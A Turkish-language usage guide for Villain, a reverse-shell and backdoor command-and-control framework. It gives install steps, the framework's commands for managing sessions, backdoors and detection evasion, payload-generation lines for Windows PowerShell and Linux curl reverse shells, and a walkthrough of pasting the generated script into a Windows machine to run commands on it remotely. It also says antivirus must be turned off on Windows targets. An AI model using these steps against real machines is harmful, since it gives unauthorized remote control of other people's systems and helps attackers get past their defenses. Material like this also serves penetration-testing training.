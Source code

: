 ## KURULUM

**İki seçenek bulunmaktadır.**
1) Direkt Kali sisteminde apt komutu ile villain kurulumu:

   `apt install villain`

3) Yeni güncellemeler anında gelmeyebilir bu yüzden sırasıyla şu komutları yazarak Villain'i kurun:

   `git clone https://github.com/t3l3machus/Villain`

   `cd ./Villain`

   `pip3 install -r requirements.txt`


Bunuda kurmanız lazım:

`sudo apt update&&sudo apt install gnome-terminal`

Villian komutları:
- generate: Farklı payload türlerinde çalıştırılabilir scriptler üretir.
+ siblings: Daha önce connect edilmiş kardeş sunucuların bilgileri gösterilir.
* connect: Mevcut villain sunucusuna kardeş bağlar. Oturum yönetimi ortaklaşa bir duruma gelir.
- sessions: Aktif tüm reverse shell oturumlarını listeler.
+ backdoors: Sunucuya yerleştirilmiş backdoor tiplerinin tür statü gibi bilgileri tablo olarak gösterilir.
* sockets: villain tarafından dinlenen portlar listelenir.
- shell: Hedef sistemde komut çalıştırmayı doğrudan yapar.
+ cmdinspector: Şüpheli komut çalıştırma veya tespit önleme işlevlerini kontrol eder.

Windows için generate kodu = `generate lhost=eth0 payload=windows/reverse_tcp/powershell`

Linux için generate kodu = `generate lhost=eth0 payload=linux/hoaxshell/sh_curl`

Kardeş kullanımı için (birbirine bağlanan cihazlar birbirinin erişebildiği cihazlara erişebilir):
Villain kullanan bir cihazdan `ip a s` yazarak ip bilgisi alın ve 2.cihazda Villain çalıştırdıktan sonra `connect <ip>` komutu yazın. İstek ilk bilgisayara yollanıcak ve bir şifre girmeniz gerekicek. Onu yazdıktan sonra onay vermiş olcaksınız ve böylece bağlanma işlemi bitmiş olcak. Sonrasında ise siblings yazarak kardeş sistem bilgilerine erişebilirsiniz.

Örnek Kullanım:

Kali cihazda Villain çalıştırılır. Windows için yukardaki gibi bir generate kodu kullanılarak script oluşturulur. Oluşturulan scripti Windows cihazının powershell'ine yapıştırın ve böylece Windows cihazı Kali bilgisayarına bağlanıcaktır. `sessions` komutunu Kali cihazında yazarak erişilen Windows cihazı hakkındaki bilgileri görebilirsiniz (session id gibi). `Shell <session_id>` komutu ile Windows cihazına olan erişimi kullanarak komutlar çalıştırabiliriz. Mesela `cat "Hello" > deneme.txt` yazdığımız zaman Kali sistemimiz üzerinden Windows sisteminde deneme.txt dosyası oluşturmuş oluruz.

**Dikkat: Linux sistemlerinde herhangi bir problem yaşanmazken, Windows cihazlarda virüs tarzı korumaların kapatılması gerekmektedir!**
